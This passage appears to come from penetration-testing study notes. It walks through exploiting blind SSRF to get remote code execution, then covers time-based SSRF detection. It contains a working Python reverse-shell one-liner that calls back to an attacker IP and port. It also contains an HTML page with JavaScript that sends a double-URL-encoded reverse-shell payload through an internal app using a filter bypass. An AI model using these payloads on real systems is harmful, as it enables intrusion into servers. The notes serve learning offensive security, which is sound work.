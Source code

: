     </html>
    ```
  
  * We can start the HTTP server again, submit this HTML file, and once we get the response we can decode it

  * Also, similar to previous example, there is an underlying server ```internal.app.local``` here too - we can use a HTML file with a valid payload for exploiting the local app listening on the server

  * The underlying server uses Python, so we can use a reverse shell payload accordingly:

    ```bash
    export RHOST="10.10.15.170";export RPORT="9090";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```
  
  * Similar to the previous instance, we would need to URL-encode the payload, twice (as it is passing through 2 web apps, also note the second parameter in URL includes ```:://``` to bypass filter), and then include it in the HTML file:

    ```html
    <html>
        <body>
            <b>Reverse Shell via Blind SSRF</b>
            <script>
            var http = new XMLHttpRequest();
            http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true); 
            http.send();
            // GET request to internal.app.local, reach local app vulnerable to RCE via SSRF and execute payload
            http.onerror = function(){document.write('<a>Oops!</a>');}
            </script>
        </body>
    </html>
    ```
  
  * We need to start our listener again, and submit the HTML file with the payload, and we should get a reverse shell

* Time-based SSRF:

  * We can check if web app is vulnerable to SSRF by observing time differences in responses

  * For example, if there is a significant difference between a normal upload and a malicious upload (a HTML file including some IP address like ```<img src="http://blah.nonexistent.com">```) it can indicate vulnerability; furthermore, we can check by adding a valid URL (like the internal server ```internal.app.local```) and notice the time difference

## SSI Injection

* Server-side includes (SSI):
